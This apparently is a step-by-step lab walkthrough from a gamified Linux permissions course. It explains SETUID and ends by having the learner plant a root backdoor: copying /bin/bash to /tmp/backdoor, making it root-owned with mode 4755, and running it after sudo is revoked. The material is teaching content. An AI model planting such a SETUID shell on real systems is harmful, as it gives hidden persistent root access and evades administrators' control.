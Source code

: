 Permissions (29)
Execute the racewalkingfact9 program as a normal user.

    olympian@bc-permissions:~$ ./racewalkingfact9
    Hello root. Your effective user ID is 0. Also, I have a fact for you:.

    The racewalking violation of having both feet off the ground is known as flying.

Permissions (30)
An attacker with root access can use SETUID permissions to create a backdoor.
Copy the /bin/bash file to /tmp/backdoor.

    olympian@bc-permissions:~$ cp /bin/bash /tmp/backdoor

Permissions (31)
An attacker with root access can use SETUID permissions to create a backdoor.
Change the ownership of /tmp/backdoor to root.

    olympian@bc-permissions:~$ sudo chown root /tmp/backdoor 

Permissions (32)
An attacker with root access can use SETUID permissions to create a backdoor.
Change the permissions of /tmp/backdoor to 4755 (SETUID).

    olympian@bc-permissions:~$ sudo chmod 4755 /tmp/backdoor

Permissions (33)
An attacker with root access can use SETUID permissions to create a backdoor.
We have revoked your sudo access, but you can still get root access by running the backdoor command with the -p argument.

    olympian@bc-permissions:/tmp$ backdoor

Congratulations! You have completed the Linux Permissions qualifying event for the Linux Olympics! 🏅🏅🏅
You have demonstrated true skill, and are ready to compete as a true contender for the Linux gold medal.
Run 'exit' to close.
